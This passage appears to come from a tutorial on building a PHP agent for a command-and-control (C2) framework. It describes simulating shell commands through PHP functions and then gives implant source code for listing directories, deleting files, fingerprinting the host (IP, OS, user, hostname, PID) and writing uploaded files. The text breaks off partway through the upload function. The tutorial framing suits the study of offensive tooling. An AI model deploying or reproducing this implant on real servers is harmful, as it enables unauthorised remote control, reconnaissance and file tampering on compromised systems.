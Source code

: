 <img src="{{ site.url }}{{ site.baseurl }}/images/whoami.png" alt="">
<img src="{{ site.url }}{{ site.baseurl }}/images/whoami2.png" alt="">
<img src="{{ site.url }}{{ site.baseurl }}/images/whoami3.png" alt="">

### pwd

The pwd command can be simulated as follows:

<img src="{{ site.url }}{{ site.baseurl }}/images/getcwd.png" alt="">

### cd

The cd command can be simulated as follows:

<img src="{{ site.url }}{{ site.baseurl }}/images/chdir.png" alt="">

### ls

The ls command can be simulated as follows:

<img src="{{ site.url }}{{ site.baseurl }}/images/scandir.png" alt="">
<img src="{{ site.url }}{{ site.baseurl }}/images/opendir.png" alt="">

### Putting it all together

This can be put together into a single PHP file and integrated into our C2:

```
function list_directory($path){
	$files = scandir($path);
	$output = "Listing contents of: " . realpath($path) . "\n";
	$output = $output . "\tUID\tGID\tSize\tMTime\tName\n";
	foreach ($files as $item) {
		$curFile = stat($path . "/" . $item);
		$curOutput = $curFile["uid"] . "\t" . $curFile["gid"] . "\t" . $curFile["size"] . "Bytes \t" . date("Y-m-d\TH:i:s\Z", $curFile["mtime"]) . "\t" . $item;
		$output = $output . "\n" . $curOutput;
	  }
	return $output;
}
function remove_file($path){
	if( unlink($path) ){
		return "Removed file";
	}
	return "Failed to remove file";
}
function checkin(){
	// format is IP|OS|User|Host|Domain|PID|Arch
	$host = gethostname();
	$ip = gethostbyname($host);
	$arch = php_uname('m');
	$user = get_current_user();
	$pid = getmypid();
	$os = php_uname();
	return $ip . "|" . $os . "|" . $user . "|" . $host . "|" . "" . "|" . $pid . "|" . $arch . "|";
}
function upload($path, $data){
	$fh = fopen($path, 'w');
	if( $fh === false ){
		return "Failed to write file";
	}
	fwrite($fh, $data);
```